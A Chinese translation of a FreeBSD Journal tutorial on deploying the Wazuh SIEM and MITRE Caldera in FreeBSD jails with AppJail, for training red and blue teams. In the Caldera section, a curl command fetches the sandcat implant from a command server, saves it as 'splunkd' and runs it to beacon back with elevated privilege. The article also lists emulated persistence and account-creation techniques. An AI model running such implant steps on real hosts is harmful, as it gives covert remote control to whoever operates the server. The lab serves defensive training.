










# Wazuh 和 MITRE Caldera 在 FreeBSD Jail 中的使用


- 原文链接：<https://freebsdfoundation.org/wp-content/uploads/2023/11/Cardenas.pdf>
- 作者：ALONSO CÁRDENAS
- 译者：Canvis-Me & ChatGPT

在信息安全管理中，每天都需要越来越多支持实施控制的基础设施。组织中最常用的工具之一是 SIEM（安全信息与事件管理）。SIEM 通过在集中地点收集和分析普通消息、警告通知和日志文件，帮助实时识别攻击或攻击趋势。

此外，组织中支持安全管理的团队需要持续的技术培训，因此传统培训方法需要补充一些工具，这些工具能模拟攻击（红队）并帮助培训事件响应团队（蓝队）。

FreeBSD 为我们提供了支持信息安全控制实施的各种活动的应用程序和工具。Jail 是 FreeBSD 的强大特性，能让你创建隔离的环境，非常适合与信息安全或网络安全相关的任务，帮助保持干净的主机环境，使用脚本或工具（如 AppJail）自动化部署任务，模拟安全环境以分析，以及测试工具，能最快地部署安全解决方案。

在这篇文章中，我们将专注于部署两个开源工具，当结合使用时，可以补充由红队和蓝队执行的培训练习。它基于《使用 CALDERA 和 [Wazuh](https://wazuh.com/blog/adversary-emulation-with-caldera-and-wazuh/) 进行对抗仿真》这篇文章，但使用了 FreeBSD、AppJail（Jail 管理）、Wazuh 和 MITRE Caldera。

这项工作的主要目标是提升 FreeBSD 作为信息安全或网络安全有用平台的知名度。

## Wazuh

[Wazuh](https://wazuh.com/) 是用于威胁预防、检测和响应的免费开源平台。它能够在本地、虚拟化、容器化和基于云的环境中保护工作负载。Wazuh 解决方案包括部署到受监视系统的端点安全代理，以及收集和分析代理所采集数据的管理服务器。Wazuh 的特点包括与 [Elastic Stack](https://www.elastic.co/elastic-stack/) 和 [OpenSearch](https://opensearch.org/) 的完全集成，提供搜索引擎和数据可视化工具，用户可通过这些工具浏览安全警报。

Wazuh 在 FreeBSD 上的移植由 [Michael Muenz](mailto:m.muenz@gmail.com) 发起。他在 2021 年 9 月首次将 Wazuh 添加到 Ports 中，即 [security/wazuh-agent](https://cgit.freebsd.org/ports/tree/security/wazuh-agent/)。在 2022 年 7 月，我接手了该 Port 的维护，并开始移植其他 Wazuh 组件。

目前，所有 Wazuh 组件全部移植或适配完成：[security/wazuh-manager](https://cgit.freebsd.org/ports/tree/security/wazuh-manager/)、[security/wazuh-agent](https://cgit.freebsd.org/ports/tree/security/wazuh-agent/)、[security/wazuh-server](https://cgit.freebsd.org/ports/tree/security/wazuh-server/)、[security/wazuh-indexer](https://cgit.freebsd.org/ports/tree/security/wazuh-indexer/) 和 [security/wazuh-dashboard](https://cgit.freebsd.org/ports/tree/security/wazuh-dashboard/)。

在 FreeBSD 上，security/wazuh-manager 和 security/wazuh-agent 是从 Wazuh 源代码编译而来的。security/wazuh-indexer 是经过适配的 textproc/opensearch，用于存储代理数据。security/wazuh-server 包含了针对 FreeBSD 的配置文件适配。运行时依赖项包括 security/wazuh-manager、sysutils/beats7（filebeat）和 sysutils/logstash8。security/wazuh-dashboard 使用了经过适配的 textproc/opensearch-dashboards，以及来自 wazuh-kibana-app 源代码为 FreeBSD 生成的 wazuh-kibana-app 插件。

## MITRE Caldera

[MITRE Caldera](https://caldera.mitre.org/) 是旨在轻松自动化对抗仿真、协助手动红队行动并自动化事件响应的网络安全平台。它建立在 MITRE ATT&CK© 框架上，是 MITRE 的活跃研究项目。

MITRE Caldera（[security/caldera](https://cgit.freebsd.org/ports/tree/security/caldera/)）于 2023 年 4 月加入了 Ports 树。该 Port 包括对 [MITRE Caldera 原子插件](https://github.com/mitre/atomic) 使用的 [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) 项目的支持。

## AppJail

[AppJail](https://github.com/DtxdF/AppJail) 是完全由 **sh(1)** 和 C 编写的框架，用于使用 FreeBSD Jail 创建隔离的、便携的、易于部署的环境，这些环境的行为类似应用程序。AppJail 的有趣特性之一是 [AppJail-Makejails](https://github.com/AppJail-makejails) 格式。它是文本文档，包含构建 jail 的所有指令。Makejail 是构建 jail、配置它、安装应用程序、配置它们等过程的又一层抽象。

## 准备

在部署 Wazuh 和 MITRE Caldera 之前，需要先处理一些最低要求。在本文中，我使用 FreeBSD 14.0-RC1-amd64 作为主机系统 `# pkg install appjail-devel #` 以包含 AppJail 添加的最新功能。

将锚点放入 pf.conf 中：

```sh
# cat << "EOF" >> /etc/pf.conf
nat-anchor 'appjail-nat/jail/*'
nat-anchor "appjail-nat/network/*"
rdr-anchor "appjail-rdr/*"
EOF
```

启用数据包过滤器

```sh
# pfctl -f /etc/pf.confg -e
```

启用 IP 转发

```sh
sysctl net.inet.ip.forwarding=1
```

是时候下载创建 jail 所需的文件。默认情况下，AppJail 下载与主机相同版本和架构的文件。

```sh
# appjail fetch
```

如需指定特定版本，必须使用以下命令：

```sh
# appjail fetch www -v 13.2-RELEASE -a amd64
```

我们添加了名为 wazuh-net 的网络。wazuh-net 桥将用于 jail。

```sh
# appjail network add wazuh-net 11.1.0.0/24
# appjail network list

NAME NETWORK CIDR BROADCAST GATEWAY MINADDR MAXADDR ADDRESSES DESCRIPTION
wazuh-net 11.1.0.0 24 11.1.0.255 11.1.0.1 11.1.0.1 11.1.0.254 254 -
```

## 部署

### 部署 Wazuh AIO（全一体）

Wazuh makejail 将创建并配置 jail，其中包含 Wazuh SIEM 使用的所有组件（wazuh-manager、wazuh-server、wazuh-indexer 和 wazuh-dashboard）。目前在 Ports 中为 4.5.2 版本。

使用 AppJail 通过 AppJail-Makejail 创建它。

```sh
# appjail makejail -f gh+alonsobsd/wazuh-makejail -o osversion 13.2-RELEASE -j wazuh -- --network wazuh-net --server_ip 11.1.0.2
```

完成后，我们将看到为 wazuh-dashboard 生成的凭据，以及以下示例中用于将代理添加到 wazuh-manager 的密码：

```sh
################################################
Wazuh dashboard admin credentials
Hostname  :  https://jail-host-ip:5601/app/wazuh
Username  :  admin
Password  :  @vCX46vMSaNUAf5WQ
################################################
Wazuh agent enrollment password
Password  :  @ugEwZHpUJ8a7oCsc1rxJKd3/hlk=
################################################
```

检查 wazuh-dashboard 服务是否就绪。尝试使用 Web 浏览器连接到 `https://11.1.0.2:5601/app/wazuh`。



### 部署 Wazuh 代理

如果 wazuh-dashboard 在线，我们将继续向基础架构添加一些代理。为此，我们将使用 wazuh-agent AppJail-Makejail 和先前生成的 Wazuh 代理注册密码。

```sh
-f 使用来自 github 仓库的 AppJail-Makejail
-o 用于定义创建 jail 时使用的 FreeBSD 版本，否则使用主机版本
-j jail 名称
```

以下参数已在 Makejail 文件中定义：

```sh
--network jail 使用的网络名称
--agent_ip 分配给 jail 的 IP 地址
--agent_name wazuh-agent 的名称
--server_ip wazuh-manager 的 IP 地址
--enrollment 代理注册密码

# appjail makejail -f gh+alonsobsd/wazuh-agent-makejail -o osversion=13.2-RELEASE
-j agent01 -- --network wazuh-net --agent_ip 11.1.0.3 --agent_name agent01 --server_ip 11.1.0.2 --enrollment @ugEwZHpUJ8a7oCsc1rxJKd3/hlk=
```

对于每个代理（agent01、agent02、agent03、agent04 和 agent05），重复此命令，使用不同的 IP 地址（11.1.0.3、11.1.0.4、11.1.0.5 和 11.1.0.6），并更改系统版本（13.2-RELEASE 或 14.0-RC1）。完成后，我们将能够在 wazuh-dashboard 的 “Agents” 窗口中查看已连接代理的列表。



最后，在每个代理上安装 `net/curl`。此工具将用于下载与 MITRE Caldera 交互的载荷。

```sh
# appjail pkg jail agent01 install curl
```

### 部署 MITRE Caldera

与之前的操作类似，我们继续使用 Caldera AppJail-Makejail 创建 jail。

```sh
-f 使用来自 github 仓库的 AppJail-Makejail
-o 用于定义创建 jail 时使用的 FreeBSD 版本，否则使用主机版本
-j jail 名称
```

以下参数已在 Makejail 文件中定义：

```sh
--network jail 使用的网络名称
--caldera_ip 分配给 jail 的 IP 地址

# appjail makejail -f gh+alonsobsd/caldera-makejail -o osversion=13.2-RELEASE -j caldera -- --network wazuh-net --caldera_ip 11.1.0.10
```

就像 wazuh 的创建和配置过程一样，它将在以下示例中显示为 MITRE Caldera 生成的凭据：

```sh
################################################
MITRE Caldera admin credential
Hostname  :  https://jail-host-ip:8443
Username  :  admin
Password  :  Z1EtVnltRtirHDOTVY4=
################################################

################################################
MITRE Caldera blue credential
Hostname  :  https://jail-host-ip:8443
Username  :  blue
Password  :  M0WmJnQOLG3va+b0LM8=
################################################

################################################
MITRE Caldera red credential
Hostname  :  https://jail-host-ip:8443
Username  :  red
Password  :  1TPza2NLp0h1scaZ2uA=
################################################
```

测试 MITRE Caldera 服务是否就绪。尝试使用 Web 浏览器连接到 `https://11.1.0.2:8443/`。



如果 MITRE Caldera 服务在线，我们继续在每个代理上下载并运行 sandcat 载荷。这样，MITRE Caldera 将能够在每个 jail 中运行测试。



```sh
# appjail cmd jexec agent01 sh -c 'curl -k -s -X POST -H "file:sandcat.go" -H
"platform:freebsd" https://11.1.0.10:8443/file/download > /root/splunkd'
# appjail cmd jexec agent01 chmod 750 /root/splunkd
# appjail cmd jexec agent01 ./splunkd -server https://11.1.0.10:8443 -group red -v

Starting sandcat in verbose mode.
[*] No tunnel protocol specified. Skipping tunnel setup.
[*] Attempting to set channel HTTP
Beacon API=/beacon
[*] Set communication channel to HTTP
initial delay=0
server=https://11.1.0.10:8443
upstream dest addr=https://11.1.0.10:8443
group=red
privilege=Elevated
allow local p2p receivers=false
beacon channel=HTTP
available data encoders=base64, plain-text
[+] Beacon (HTTP): ALIVE
```

在不同的终端会话中，为每个代理重复前面的命令，只更改 jail 的名称（agent01、agent02、agent03、agent04 和 agent05）。完成这些任务后，我们将在 MITRE Caldera Agents 窗口中看到可用代理的列表。



添加（潜在的链接按钮）并在不同的代理上运行一些模拟测试。以下四个测试将在 wazuh-manager 中生成警报：

1) Cron – 用引用的文件替换 crontab（T1053.003）
2) 在 FreeBSD 中使用 `root` GID 创建新用户（T1136.001）
3) 在 FreeBSD 系统上创建用户账户（T1136.001）
4) 创建本地账户（FreeBSD）（T1078.003）



完成模拟操作后，我们在 wazuh-dashboard 控制台中验证每个测试生成的警报。









## 结论

Wazuh 和 MITRE Caldera 提供了可定制的工具，以适应安全信息或网络安全需求。本文仅介绍了 Wazuh SIEM 和 MITRE Caldera 全部功能中的一小部分。如果你想进一步了解这些工具，Wazuh 项目和 MITRE Caldera 项目维护着出色的文档（<https://documentation.wazuh.com/current/index.html>）和（<https://caldera.readthedocs.io/en/latest/>），并提供强大的社区支持。

最后，AppJail 帮助快速将本文使用的工具部署到 jail 容器中。

---

**ALONSO CÁRDENAS** 是 FreeBSD 项目的 Ports 提交者。他最近专注于提升 FreeBSD 作为信息安全有用平台的知名度。他是秘鲁的信息安全和网络安全顾问。
